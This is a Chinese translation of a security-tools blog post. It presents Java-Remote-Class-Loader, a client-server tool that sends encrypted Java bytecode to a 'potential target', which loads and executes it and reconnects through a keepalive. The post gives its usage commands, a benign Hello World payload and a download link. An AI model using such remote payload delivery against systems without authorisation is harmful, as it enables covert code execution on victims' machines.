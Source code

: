 # Java-Remote-Class-Loader:发送 Java 字节码受害者进行加载和执行的工具

> 原文：<https://kalilinuxtutorials.com/java-remote-class-loader/>

[![](img/93a0bbcf2b7240d7bedf510b6028c4d6.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhrip7mgHqgEV9-eDoXyYAgh8aRSziuVSAQKSuLbZO1Vc88GV1k6teMqN1bI_lAwFbuFZtsujDqi9x3KIXi78aXsxvPph37L-PPtYmymBl6Xy62e86HcC3zxuvBGyyv3QgZ6iXy581GrhoKobLMb4rrPFo7qSC5kZwrjZdsuoEitH1ag5I8r9C1NBxy/s728/Java-Remote-Class-Loader.png)

**Java-Remote-Class-Loader** 是一个工具，它允许您将 Java 字节码以类文件的形式发送到您的客户端(或潜在目标),以便使用 Java ClassLoader 和 Reflect API 来加载和执行。客户机从服务器接收类文件，并返回各自的执行输出。有效负载必须用 Java 编写，并在启动服务器之前进行编译。

## 特性

*   客户机-服务器体系结构
*   Java 类文件的远程加载
*   使用 ChaCha20 密码的传输加密
*   通过参数定义的设置
*   Keepalive 机制，用于在服务器重启时重新建立通信

## 安装

该工具已经在 Windows 和 Linux (zip 便携版)上使用 OpenJDK 11 和 JRE Java 包进行了测试。由于依赖性，Java 版本应该是 11 或更高版本。

[https://www.openlogic.com/openjdk-downloads](https://www.openlogic.com/openjdk-downloads)

## 用法

```
$ java -jar java-class-loader.jar -help

usage: Main
 -address <arg>       address to connect (client) / to bind (server)
 -classfile <arg>     filename of bytecode .class file to load remotely
                      (default: Payload.class)
 -classmethod <arg>   name of method to invoke (default: exec)
 -classname <arg>     name of class (default: Payload)
 -client              run as client
 -help                print this message
 -keepalive           keeps the client getting classfile from server every
                      X seconds (default: 3 seconds)
 -key <arg>           secret key - 256 bits in base64 format (if not
                      specified it will generate a new one)
 -port <arg>          port to connect (client) / to bind (server)
 -server              run as server
```

## 举例

假设您在`Payload.java`文件中有以下 Hello World 有效负载:

```
//Payload.java
public class Payload {
    public static String exec() {
        String output = "";
        try {
            output = "Hello world from client!";
        } catch (Exception e) {
            e.printStackTrace();
        }
        return output;
    }
}
```

然后，您应该编译并生成各自的`Payload.class`文件。

要在所有网络接口上运行监听端口 1337 的服务器进程，请执行以下操作:

```
$ java -jar java-class-loader.jar -server -address 0.0.0.0 -port 1337 -classfile Payload.class

Running as server
Server running on 0.0.0.0:1337
Generated new key: TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=
```

在客户端，您可以使用带有`-client`标志的同一个 JAR 包，并使用服务器生成的对称密钥。指定要连接的服务器 IP 地址和端口。你也可以改变类名和类方法(默认分别是`Payload`和`String exec()`)。此外，您可以指定`-keepalive`来保持客户机从服务器请求类文件，同时保持连接。

```
$ java -jar java-class-loader.jar -client -address 192.168.1.73 -port 1337 -key TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=

Running as client
Connecting to 192.168.1.73:1337
Received 593 bytes from server
Output from invoked class method: Hello world from client!
Sent 24 bytes to server
```

[Click Here To Download](https://github.com/joaovarelas/java-remote-class-loader)